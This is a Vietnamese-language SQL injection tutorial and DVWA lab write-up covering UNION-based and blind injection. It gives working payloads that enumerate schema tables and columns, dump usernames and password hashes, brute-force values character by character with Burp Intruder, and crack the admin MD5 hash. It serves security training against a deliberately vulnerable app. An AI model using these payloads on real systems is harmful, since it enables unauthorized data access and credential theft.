


# What is SQL injection (SQLi)?

SQL injection (SQLi) là một lỗ hổng bảo mật web cho phép kẻ tấn công can thiệp vào các truy vấn mà ứng dụng thực hiện đối với cơ sở dữ liệu. Điều này có thể cho phép kẻ tấn công xem dữ liệu mà họ không được phép truy xuất, bao gồm dữ liệu của người dùng khác hoặc bất kỳ dữ liệu nào mà ứng dụng có quyền truy cập. Trong nhiều trường hợp, kẻ tấn công có thể chỉnh sửa hoặc xóa dữ liệu, gây ra những thay đổi lâu dài đối với nội dung hoặc hành vi của ứng dụng.

Trong một số tình huống, kẻ tấn công có thể nâng cao cuộc tấn công SQL injection để xâm phạm máy chủ nền hoặc cơ sở hạ tầng phía sau. Ngoài ra, chúng có thể thực hiện các cuộc tấn công từ chối dịch vụ (DoS).


# How to detect SQL injection vulnerabilities

Có thể phát hiện SQL injection thủ công bằng cách thực hiện một bộ kiểm tra có hệ thống trên mọi điểm nhập dữ liệu trong ứng dụng. Để làm điều này, thường sẽ gửi các dữ liệu sau:

- **Dấu nháy đơn** (') và kiểm tra xem có lỗi hoặc bất thường nào xuất hiện không.

- **Cú pháp SQL đặc biệt** để kiểm tra xem giá trị đầu vào có thể bị thay đổi hay không bằng cách so sánh phản hồi của ứng dụng với giá trị gốc và giá trị đã bị chỉnh sửa.

- **Các điều kiện Boolean** như OR 1=1 và OR 1=2, sau đó quan sát sự khác biệt trong phản hồi của ứng dụng.

- **Payloads gây trễ thời gian**, được thiết kế để làm chậm phản hồi nếu truy vấn SQL bị thực thi, nhằm phát hiện sự khác biệt về thời gian phản hồi.

- **Payloads OAST** (Out-of-Band Application Security Testing), nhằm kích hoạt tương tác mạng ngoài băng tần khi thực thi trong truy vấn SQL, sau đó giám sát các tương tác này.

Ngoài ra, có thể nhanh chóng và hiệu quả phát hiện hầu hết các lỗ hổng SQL injection bằng cách sử dụng Burp Scanner.

# SQL injection in different parts of the query

Hầu hết các lỗ hổng SQL injection xảy ra trong mệnh đề *WHERE* của truy vấn *SELECT*. Đây là loại SQL injection phổ biến mà hầu hết những người kiểm thử có kinh nghiệm đều quen thuộc.

Tuy nhiên, lỗ hổng SQL injection có thể xuất hiện ở bất kỳ vị trí nào trong truy vấn và trong nhiều loại truy vấn khác nhau. Một số vị trí phổ biến khác mà SQL injection có thể xảy ra bao gồm:

- **Trong câu lệnh UPDATE**: Xuất hiện trong giá trị cập nhật hoặc mệnh đề WHERE.

- **Trong câu lệnh INSERT**: Xuất hiện trong giá trị được chèn vào.

- **Trong câu lệnh SELECT**: Xuất hiện trong tên bảng hoặc tên cột

- **Trong câu lệnh SELECT**: Xuất hiện trong mệnh đề ORDER BY.


# SQL injection UNION attacks

Khi một ứng dụng bị lỗi SQL injection và kết quả truy vấn được hiển thị trong phản hồi của ứng dụng, kẻ tấn công có thể sử dụng từ khóa **UNION** để lấy dữ liệu từ các bảng khác trong cơ sở dữ liệu. Đây được gọi là tấn công SQL injection kiểu UNION.

Từ khóa UNION cho phép thực thi một hoặc nhiều truy vấn SELECT bổ sung và ghép kết quả vào truy vấn ban đầu. Ví dụ:

    SELECT a, b FROM table1 UNION SELECT c, d FROM table2;

Truy vấn SQL này trả về một tập kết quả duy nhất với hai cột, chứa các giá trị từ cột a và b trong table1, cùng với các giá trị từ cột c và d trong table2.

Để một truy vấn **UNION** hoạt động, cần đáp ứng hai yêu cầu quan trọng:

1. Các truy vấn riêng lẻ phải trả về cùng số lượng cột.
2. Kiểu dữ liệu của từng cột trong các truy vấn phải tương thích với nhau.

Để thực hiện một cuộc tấn công SQL injection kiểu UNION, cần đảm bảo rằng truy vấn tấn công đáp ứng hai yêu cầu này. Điều này thường bao gồm việc xác định:

- Số lượng cột mà truy vấn gốc trả về.
- Những cột nào trong truy vấn gốc có kiểu dữ liệu phù hợp để chứa kết quả từ truy vấn chèn vào.

# Determining the number of columns required

Khi thực hiện tấn công SQL injection kiểu **UNION**, có hai phương pháp hiệu quả để xác định số lượng cột mà truy vấn gốc trả về.

Một phương pháp là chèn lần lượt các mệnh đề ORDER BY và tăng dần chỉ số cột cho đến khi xảy ra lỗi. Ví dụ, nếu điểm injection nằm trong một chuỗi được trích dẫn bên trong mệnh đề **WHERE** của truy vấn gốc, có thể gửi:

    ' ORDER BY 1--  
    ' ORDER BY 2--  
    ' ORDER BY 3--  
    ...

Chuỗi payload này sẽ sửa đổi truy vấn gốc để sắp xếp kết quả theo các cột khác nhau trong tập kết quả. Cột trong mệnh đề ORDER BY có thể được chỉ định bằng chỉ số của nó, vì vậy không cần biết tên của bất kỳ cột nào.

Khi chỉ số cột vượt quá số lượng cột thực tế trong tập kết quả, cơ sở dữ liệu sẽ trả về lỗi, ví dụ:

    The ORDER BY position number 3 is out of range of the number of items in the select list.

Ứng dụng có thể hiển thị lỗi của cơ sở dữ liệu trong phản hồi HTTP, nhưng cũng có thể trả về một phản hồi lỗi chung chung hoặc không hiển thị kết quả nào cả. Dù bằng cách nào, miễn là có sự khác biệt trong phản hồi thì có thể suy ra số lượng cột mà truy vấn đang trả về.

Phương pháp thứ hai để xác định số lượng cột là gửi một chuỗi payload **UNION SELECT** với số lượng giá trị **NULL** khác nhau:

    ' UNION SELECT NULL--  
    ' UNION SELECT NULL, NULL--  
    ' UNION SELECT NULL, NULL, NULL--  
    ...

Nếu số lượng giá trị **NULL** không khớp với số lượng cột, cơ sở dữ liệu sẽ trả về lỗi, ví dụ:

    All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.

Sử dụng **NULL** làm giá trị trả về từ truy vấn **SELECT** được chèn vào vì kiểu dữ liệu của từng cột trong truy vấn gốc và truy vấn chèn vào phải tương thích. **NULL** có thể chuyển đổi sang hầu hết các kiểu dữ liệu phổ biến, giúp tăng khả năng payload hoạt động thành công khi số lượng cột chính xác.

Tương tự như kỹ thuật **ORDER BY**, ứng dụng có thể hiển thị lỗi của cơ sở dữ liệu trong phản hồi HTTP, hoặc trả về một lỗi chung chung, hoặc thậm chí không hiển thị kết quả nào. Khi số lượng giá trị **NULL** khớp với số lượng cột, cơ sở dữ liệu sẽ trả về một dòng dữ liệu bổ sung trong tập kết quả, chứa các giá trị **NULL** trong từng cột. Ảnh hưởng của điều này đến phản hồi HTTP phụ thuộc vào cách ứng dụng xử lý dữ liệu.

- Nếu may mắn, có thể thấy một số nội dung bổ sung trong phản hồi, ví dụ như một dòng dữ liệu mới trong bảng HTML.

- Nếu không, giá trị **NULL** có thể kích hoạt một lỗi khác, chẳng hạn như *NullPointerException*.

- Trong trường hợp tệ nhất, phản hồi của ứng dụng có thể trông giống hệt như khi số lượng **NULL** không chính xác, khiến phương pháp này trở nên kém hiệu quả.

# Finding columns with a useful data type

Tấn công SQL injection kiểu **UNION** cho phép truy xuất dữ liệu từ truy vấn chèn vào. Thông tin quan trọng muốn lấy thường ở dạng chuỗi. Do đó, cần tìm một hoặc nhiều cột trong kết quả truy vấn gốc có kiểu dữ liệu là chuỗi hoặc tương thích với dữ liệu chuỗi.

Sau khi xác định số lượng cột, có thể kiểm tra từng cột để xem cột nào có thể chứa dữ liệu dạng chuỗi. Để làm điều này, gửi một chuỗi payload **UNION SELECT** với một giá trị chuỗi đặt vào từng cột lần lượt. Ví dụ, nếu truy vấn gốc trả về bốn cột, có thể thử:

    ' UNION SELECT 'a', NULL, NULL, NULL--  
    ' UNION SELECT NULL, 'a', NULL, NULL--  
    ' UNION SELECT NULL, NULL, 'a', NULL--  
    ' UNION SELECT NULL, NULL, NULL, 'a'--  

Nếu kiểu dữ liệu của một cột **không tương thích** với dữ liệu chuỗi, truy vấn chèn vào sẽ gây lỗi cơ sở dữ liệu, chẳng hạn như:

    Conversion failed when converting the varchar value 'a' to data type int.

Ngược lại, nếu **không có lỗi** xảy ra và phản hồi của ứng dụng hiển thị nội dung bổ sung chứa giá trị chuỗi đã chèn ('a'), thì cột đó phù hợp để truy xuất dữ liệu chuỗi.

# Using a SQL injection UNION attack to retrieve interesting data

Sau khi xác định được **số lượng cột** trong truy vấn gốc và tìm ra **các cột có thể chứa dữ liệu chuỗi**, có thể bắt đầu truy xuất dữ liệu quan trọng từ cơ sở dữ liệu.

Giả sử:

- Truy vấn gốc trả về **hai cột**, cả hai đều có thể chứa dữ liệu chuỗi.
- Điểm injection nằm trong **một chuỗi được trích dẫn** bên trong mệnh đề **WHERE**.
- Cơ sở dữ liệu có một bảng **users**, chứa hai cột: **username** và **password**.

Trong trường hợp này, có thể lấy nội dung của bảng **users** bằng cách gửi payload sau:

    ' UNION SELECT username, password FROM users--

Để thực hiện tấn công này, cần biết rằng tồn tại một bảng tên **users** với hai cột là **username** và **password**. Nếu không có thông tin này, sẽ phải **đoán** tên của bảng và các cột.

Tuy nhiên, hầu hết các hệ quản trị cơ sở dữ liệu hiện đại đều cung cấp các phương thức để khám phá cấu trúc cơ sở dữ liệu, giúp xác định được các bảng và cột mà chúng chứa.

# Lab: Khai thác lỗi SQL injection lấy mật khẩu người dùng trên DVWA

1. Mức độ **Low-level security**
   
   
   Sử dụng trình duyệt *Firefox* truy cập chức năng SQL injection trên DVWA. Lần lượt nhập các giá trị bên dưới để tiến hành khai thác:

   - Kiểm tra xem có lỗi **SQL injection** hay không: 

     ``` 
     1' OR 1=1 -- - 
     ```
     
    
    > Chuỗi `1' OR 1=1 -- -` được nhập vào để thêm một điều kiện luôn đúng vào truy vấn SQL gốc, và bằng cách sử dụng comment (`--`) hoặc (`#`) để loại bỏ bất kỳ phần nào khác trong truy vấn gốc. Điều này có thể làm cho truy vấn SQL ban đầu trở nên đúng và giúp ta truy cập vào cơ sở dữ liệu mà không cần biết thông tin đăng nhập hoặc quyền truy cập.

   - Kiểm tra phiên bản *DBMS*:

     ```
     1' UNION SELECT NULL, version() -- -
     ```
    
    
    > Phiên bản *DBMS*: **11.8.1-MariaDB-4**

   - Kiểm tra tên `database`:

     ```
     1' UNION SELECT NULL, database() -- -
     ```
     
     
    > Tên database là ***dvwa***

   - Liệt kê tên các **tables** có trong database hiện tại:

     ```
      1' union select null, table_name from information_schema.tables where table_schema=database() -- -
     ```
     
     
     >  Ta dễ dàng thấy các **tables** có trong database hiện tại được liệt kê ra là *guestbook* và *users*

   - Liệt kê tên các **column** trong table `users`:

     ```
     1' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name = 'users' -- -
     ```
     

     > Các column trong table `users` gồm: **user_id, first_name, last_name, USER, password, avatar, last_login, failed_login, PASSWORD_ERRORS, PASSWORD_EXPIRATION_TIME** 

   - Liệt kê **username** và **password** trong table `users`
     
     ```
     1' union select user, password from users -- -
     ```
     

     > Ta nhận thấy rằng *password* có thể được mã hóa bằng hàm băm [MD5](https://vi.wikipedia.org/wiki/MD5) (vì các chuỗi có độ dài 32 ký tự)
    
   - Tiến hành decode hàm băm MD5 để tìm ra *password* với mỗi `user`:
    
    Ví dụ:
     
    
    >  Mật khẩu của tài khoản *admin* là **password**

    Tương tự với các tài khoản còn lại.

2. Mức độ **Medium-level security**
   
   

   Ở mức độ *Medium-level security*, biến **id** được gửi bằng phương thức **POST** và người dùng chỉ được lựa chọn các giá trị là số nguyên có sẵn. Tuy nhiên có thể dễ dàng bypass bằng BurpSuite.

   

   Tiếp theo làm tương tự như bước decode MD5 ở mức độ **Low-level-security** để tìm ra **password** tương ứng với mỗi `user`.

3. Mức độ **High-level security**
   
   

   Ở mức độ **High-level security**, DVWA yêu cầu người dùng nhập `User ID` ở một trang khác. Tuy nhiên cách này cũng không khắc phục được lỗi *SQL Injection*, chúng ta có thể dễ dàng lấy giá trị băm mật khẩu với các giá trị input giống như mức độ **Low-level-security**.
   
   

   

   Tiếp theo làm tương tự như bước decode MD5 ở mức độ **Low-level-security** để tìm ra **password** tương ứng với mỗi `user`.

# What is blind SQL injection?

**Blind SQL injection** xảy ra khi một ứng dụng **bị tổn thương bởi SQL injection**, nhưng phản hồi HTTP **không hiển thị kết quả truy vấn SQL** hoặc không tiết lộ lỗi từ cơ sở dữ liệu.

Các kỹ thuật tấn công như **UNION-based SQL injection** thường không hiệu quả với **blind SQL injection**, vì chúng dựa vào việc xem được kết quả truy vấn trong phản hồi của ứng dụng. Tuy nhiên, vẫn có thể khai thác lỗ hổng **blind SQL injection** để truy cập dữ liệu trái phép bằng các kỹ thuật khác.

# Lab: Khai thác lỗi SQL injection(Blind)

Ở lỗi **SQL injection (Blind)**, câu lệnh SQL không trả ra kết quả cụ thể. Do đó, chúng ta chỉ có thể tiến hành đoán các thông tin của database.

1. Mức độ **Low-level-security**
   
   

   -  Kiểm tra xem có lỗi SQL injection hay không: 
  
      ```
      1' AND 1=1 -- -
      ```
      
      ```
      1' AND 0=1 -- -
      ```
      

   -  Kiểm tra xem có table **users** trong *database* hiện tại không:
   
      Thông thường trong database sẽ có table **users**, ta sẽ kiểm tra điều này:
      ```
      1' AND EXISTS(SELECT * FROM users) -- -
      ```
      
      > Như vậy là có tồn tại bảng **users** trong database hiện tại vì trong response của trang trả về có chứa "**exists**".
      
      Ta thử kiểm tra xem có tồn tại cột **user** và cột **password** trong bảng `users` không:
      ```
      1' AND EXISTS(SELECT user, password FROM users) -- -
      ```
      
      > Từ kết quả trả về thì thấy tồn tại 2 cột **user** và **password** trong table `users`

   -  Dò tìm `username` của cột *user* trong table **users**
  
      Đầu tiên, kiểm tra xem số lượng *user* có trong table **users** là bao nhiêu?
      
      Sử dụng dò theo kỹ thuật **cây nhị phân** để giảm thiểu số lượng *request* tới server

      Ta thử dò trong khoảng (1-10)
      ```
      1' AND (SELECT COUNT(*) FROM users) BETWEEN 1 AND 10 -- -
      ```
      
      > Từ kết quả trả về ta thấy số lượng *user* đúng nẳm trong khoảng (1-10)

      ```
      1' AND (SELECT COUNT(*) FROM users) > 5 -- -
      ```
      
      > Từ kết quả trên ta thấy số lượng *user* nằm trong khoảng (1-5)
      
      ```
      1' AND (SELECT COUNT(*) FROM users) > 3 -- -
      ```
      
      > Từ kết quả trả về ta thấy số lượng *user* nằm trong khoảng (3-5)
      
      ```
      1' AND (SELECT COUNT(*) FROM users) > 4 -- -
      ```
      
      > Từ kết quả trả về ta kết luận được số lượng *user* có trong table `users` là 5.

      Tiếp theo ta sẽ tiến hành xác định độ dài của từng **user**.
      
      Thử với **user** đầu tiên trong table `users` nào. 

      ```
      1' AND LENGTH((SELECT user FROM users LIMIT 0,1)) > 10 -- - 
      ```
      
      > Từ kết quả trả về ta thấy độ dài nằm trong khoảng (1-10)

      ```
      1' AND LENGTH((SELECT user FROM users LIMIT 0,1)) > 5 -- - 
      ```
      
      > Từ kết quả trả về ta thấy độ dài nằm trong khoảng (1-5)

      ```
      1' AND LENGTH((SELECT user FROM users LIMIT 0,1)) > 3 -- -
      ```
      
      > Từ kết quả, ta thấy độ dài nằm trong khoảng (3-5)

      ```
      1' AND LENGTH((SELECT user FROM users LIMIT 0,1)) > 4 -- -
      ```
      
      > Từ kết quả, ta kết luận được **user đầu tiên** trong *username* của nó có chứa 5 ký tự.

      Mở BurpSuite, sau đó di chuyển vào *Intruder* để thực hiện brute-force tìm ra *username* của **user đầu tiên**
      
      Ta sẽ thử dùng payload sau để kiểm tra:
      ```
      1' AND SUBSTRING((SELECT user FROM users LIMIT 0,1), <vị trí>, 1) = '<ký_tự>' -- -
      ```
      > Ta nhận thấy sẽ có 2 vị trí cần phải test trong payload trên. 

      Trong **Intruder** của BurpSuite ta chọn kiểu tấn công *Cluster bomb attack* rồi setup payload cho 2 vị trí thay đổi.
      

      

      
      > Kết quả sau khi tấn công brute-force thì ta biết được *user đầu tiên* là ***admin***

      Làm tương tự với các **user** còn lại trong table `users` 

   -  Dò tìm `password` tương ứng với `username` tìm được

      Trong bước này, ta sẽ dò tìm *password* của *user* **admin** vừa tìm được ở bước trước. 

      Đầu tiên ta sẽ xác định độ dài của password
      ```
      1' AND LENGTH((SELECT password FROM users WHERE user = 'admin')) > 50 -- -
      ```

      
      > Từ kết quả ta thấy độ dài *password* nằm trong khoảng (0-50)
      ```
      1' AND LENGTH((SELECT password FROM users WHERE user = 'admin')) > 25 -- -
      ```
      
      > Từ kết quả trả về, độ dài *password* nằm trong khoảng (25-50) => Rất có thể *password* đã bị mã hóa. 
      ```
      1' AND LENGTH((SELECT password FROM users WHERE user = 'admin')) > 37 -- -
      ```
      
      > Từ kết quả trên, độ dài *password* nằm trong khoảng (25-37)
      ```
      1' AND LENGTH((SELECT password FROM users WHERE user = 'admin')) > 31 -- -
      ```
      
      > Từ kết quả cho thấy độ dài *password* nằm trong khoảng (31-37)
      ```
      1' AND LENGTH((SELECT password FROM users WHERE user = 'admin')) > 34 -- -
      ```
      
      > Từ kết quả cho thấy độ dài *password* nằm trong khoảng (31-34)
      ```
      1' AND LENGTH((SELECT password FROM users WHERE user = 'admin')) > 32 -- -
      ```
      
      > Từ kết quả trên, ta có thể kết luận *password* đã được mã hóa bằng một thuật toán nào đó có độ dài 32 ký tự.

      Sau khi đã biết được độ dài của *password* khi được mã hóa thì chúng ta tiến hành brute-force giống với tìm `username` trong những bước trước đó.

      Ta sẽ sử dụng payload sau để thử kiểm tra
      ```
      1' AND BINARY SUBSTRING((SELECT password FROM users WHERE user = 'admin'), <vị trí>, 1) = '<ký_tự>' -- -
      ```
      Mở BurpSuite, sau đó di chuyển vào *Intruder* để thực hiện brute-force tìm ra *password* của `user` **admin**

      

      

      

      > Sau khi brute-force ta thu được 1 chuỗi ký tự: **5f4dcc3b5aa765d61d8327deb882cf99** => Ta dự đoán đây có thể là mã hóa hàm băm *MD5*. 
      
      Tiến hành giải mã

      
      > Như vậy mật khẩu của `user` *admin* là **password**

      Làm tương tự với các *user* còn lại ta cũng thu được mật khẩu tương ứng.

2. Mức độ **Medium-level-security**
   
   

   Ở mức độ *Medium-level security*, biến **id** được gửi bằng phương thức **POST** và người dùng chỉ được lựa chọn các giá trị là số nguyên có sẵn. Tuy nhiên có thể dễ dàng dò tìm kiểm tra bằng BurpSuite.
   
   

   

   Quan sát sự thay đổi ở Respone trong BurpSuite rồi thực hiện thay đổi từng payload input giống như khai thác ở mức độ **Low-level-security** là có thể tìm được *password* cho từng *user*

3. Mức độ **High-level-security**

   

   Ở mức độ **High-level security**, DVWA yêu cầu người dùng nhập `User ID` ở một trang khác. Tuy nhiên cách này cũng không khắc phục được lỗi *SQL Injection*, chúng ta vẫn có thể khai thác bằng payload input giống như mức độ **Low-level-security**.

   

   
 
   Giả sử khi đã khai thác đến đoạn tìm được độ dài của *user đầu* tiên(*admin* theo như các level trước) là 5 thì ta sẽ mở BurpSuite và brute-force như ở các level trước nhưng khác ở chỗ là lúc này ta sẽ thay đổi payload input ở vị trí header cookie (vì ở level này DVWA yêu cầu người dùng nhập `User ID` ở 1 trang web khác, trang web này sẽ lưu lại cookie là giá trị Uid sau mỗi lần nhập và thực hiện reload lại trang web chính bằng chính cookie đó)

   

   Tiếp theo ta sẽ click chuột phải ở tap Request hiện tại và nhấp vào *send to Intuder* để thực hiện tấn công dò tìm *username*
   
   Thiết lập setup 2 biến vị trí giống như các phần trước đó từng làm ở trong các level trước.

   
   > Kết quả sau khi tấn công thì chúng ta đã tìm được *username đầu tiên* đúng là **admin**

   Phần dò tìm *password* của *user* **admin** ta cũng thực hiện tương tự.

   

   > Sau khi brute-force thành công thì ta cũng thu được 1 chuỗi ký tự: **5f4dcc3b5aa765d61d8327deb882cf99** giống như ở những level trước => Ta dự đoán đây có thể là mã hóa hàm băm *MD5*. 

   Tiến hành decode MD5 của chuỗi ký tự trên ta thu được mật khẩu là **password**


